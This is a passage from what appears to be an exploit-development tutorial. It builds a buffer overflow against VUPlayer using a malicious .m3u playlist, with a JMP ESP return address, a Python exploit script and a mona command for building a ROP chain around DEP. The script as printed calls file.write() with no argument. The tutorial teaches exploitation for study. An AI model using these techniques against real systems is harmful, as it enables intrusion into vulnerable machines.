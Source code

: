 Several of the addresses contain null bytes, but we are able to select from a limited number of addresses.
Let's select the address `0x100222C5`.

![img](images/10.png)

We must modify the exploit.
First, we will replace the `BBBB` EIP Placeholder with the JMP ESP instruction's address. Also, as it is intended to send us to the stack, we will alter the `C` buffer to a `0xcc` buffer, so there will only be breakpoints.

Normally, breakpoints should begin executing upon running the most recent `.m3u` file.

The current exploit code is presented:

```python
import struct

jmpesp = 0x100222C5

buffer = "A" * 1012
buffer += struct.pack("<I", jmpesp)
buffer += "\xcc" * (2500-len(buffer))
with open("exploit.m3u", "w") as file:
    file.write()
print "created m3u file.\n"
```

Since DEP is enabled, instead of the customary `INT3 instruction at X` at the bottom, an access violation is displayed. We are unable to execute any stack data.

![img](images/11.png)

We cannot execute anything on the stack, but we can still place arguments and addresses there, like we did during Linux ROP.

As DEP-bypassing functions have previously been [presented](https://blog.mosse-institute.com/2022/06/21/windows-exploit-countermeasures.html), let's construct a ROP chain using mona and step-by-step study its behavior.

Find below the mona command that enables us to look for ROP chains in the specified modules (these are the modules we chose before that do not support ASLR or Rebase).

```bash
!mona rop -m VUPlayer.exe,BASSWMA.dll,BASSMIDI.dll,BASS.dll
```

![img](images/12.png)
